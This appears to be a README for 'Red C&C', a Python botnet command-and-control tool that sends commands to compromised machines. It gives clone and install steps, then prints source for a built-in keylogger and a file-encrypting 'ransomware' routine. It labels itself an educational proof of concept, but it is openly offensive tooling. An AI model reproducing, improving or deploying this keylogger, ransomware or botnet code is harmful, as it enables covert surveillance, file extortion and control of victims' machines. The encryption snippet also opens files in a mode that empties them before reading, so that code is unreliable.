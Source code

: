 ```
				██████╗ ███████╗██████╗  	██████╗   ██╗    ██████╗
				██╔══██╗██╔════╝██╔══██╗	██╔════╝   ██║   ██╔════╝
				██████╔╝█████╗  ██║  ██║	██║     ████████╗██║     
				██╔══██╗██╔══╝  ██║  ██║	██║     ██╔═██╔═╝██║     
				██║  ██║███████╗██████╔╝	╚██████╗██████║  ╚██████╗
				╚═╝  ╚═╝╚══════╝╚═════╝  	╚═════╝╚═════╝   ╚═════╝
```                                            
Red C&C is a program focused on commanding and controlling a botnet. Red C&C consists of two scripts: one that will be executed by the attacker and one that will be downloaded and executed on the targeted machines. Red C&C will allow an attacker to send terminal commands to an entire botnet through a single interface using a single command. The purpose of Red C&C is to simplify the communication between an attacker and the machines that they have compromised. Red C&C uses two of Python's Built-in modules for most of the heavy lifting: the **Socket** module for establishing a client-server structure between the attacker and the target machines, and the **Threading** module for dividing the two main functions of the program into two seperate threads. 

#### **Note**: Red C&C was created as a PoC and should not be used for malicious intent but for educational purposes.

### Installing Red C&C
You can create a symbolic link that will work like a command by running the following:
```
# Install Git if its not installed.
apt install git

# Clone this repository to a folder of your choosing.
git clone https://github.com/binexisHATT/Red-C-C.git

# Change directory into the programs folder.
cd Red-C-C/

# Running the handler.
./ss.py

----------------------------------
Or you can create a symbolic link:

path = the path to the folder you cloned Red C&C in.
ln path/Red-C-C/scripts/net/ss.py /bin/redcc

With this symbolic link, typing "redcc" will execute the handler anywhere in the command line.

# Running the handler.
redcc
```


## Some of Red C&C's Highlights
### Built-in Keylogger
```python
def on_press(key):
	global LOG
	try:
		LOG += str(key.char)
	except AttributeError:
		if key == key.space:
			LOG += ' '
		elif key == key.enter: LOG += '\n'
		elif key == key.backspace: LOG += '' 
		elif key == key.ctrl: LOG += ' ctrl+'
		elif key == key.tab: LOG += '\t'
		elif key == key.cmd: LOG += ' cmd+'
		elif key == key.alt: LOG += ' alt+'
		elif key == key.caps_lock: LOG += ' CapsLock '
		elif key == key.delete: LOG += ' Del '
		elif key == key.down: LOG += ' DownArrow '
		elif key == key.left: LOG += ' LeftArrow '
		elif key == key.up: LOG += ' UpArrow '
		elif key == key.right: LOG += ' RightArrow'
		elif key == key.esc: LOG += ' esc '
		elif key == key.home: LOG += ' HomeKey '
		elif key == key.insert: LOG += ' InsertKey '
		elif key == key.print_screen: LOG += ' PrintScreen '
		elif key == key.shift: LOG += ' shift+'
		elif key == key.f1: LOG += ' F1 '
		elif key == key.f2: LOG += ' F2 '
		elif key == key.f3: LOG += ' F3 '
		elif key == key.f4: LOG += ' F4 '
		elif key == key.f5: LOG += ' F5 '
		elif key == key.f6: LOG += ' F6 '
		elif key == key.f7: LOG += ' F7 '
		elif key == key.f8: LOG += ' F8 '
		elif key == key.f9: LOG += ' F9 '
		elif key == key.f10: LOG += ' F10 '
		elif key == key.f11: LOG += ' F11 '
		elif key == key.f12: LOG += ' F12 '
		else:
			LOG += str(key)
def keylogger():
	listener = keyboard.Listener(on_press=on_press)
	try:
		if SYSTEM == 'Linux':
			os.mkdir(LIN_DIR)
		else:
			os.mkdir(WIN_DIR)
		log_to_file()
		listener.start()
	except OSError:
		pass
```
### Built-in Rasonware Operations
```python
def crypto(action: str, *args):
	if action == 'encrypt':
		to_encrypt = args[0]
		with open(to_encrypt, 'wb+') as f:
			data = f.read()
			key = Fernet.generate_key()
			cipher = Fernet(key)
			cipher_text = cipher.encrypt(data)
			f.seek(0)
			f.write(cipher_text)
			f.truncate()
			return f'  Save the decryption key -> {key.decode()}'
	else:
		to_encrypt, key = args[0][0], args[0][1]
		with open(to_encrypt, 'wb+') as f:
			cipher_text = f.read()
			cipher = Fernet(key)
			try:
				plain_text = cipher.decrypt(cipher_text)
			except cryptography.fernet.InvalidToken:
				return '  [-] Invalid key!'
			f.seek(0)
			f.write(plain_text)
			f.truncate()
			return '  [+] File successfully decrypted!'
```

### Watch our project video demo here -->
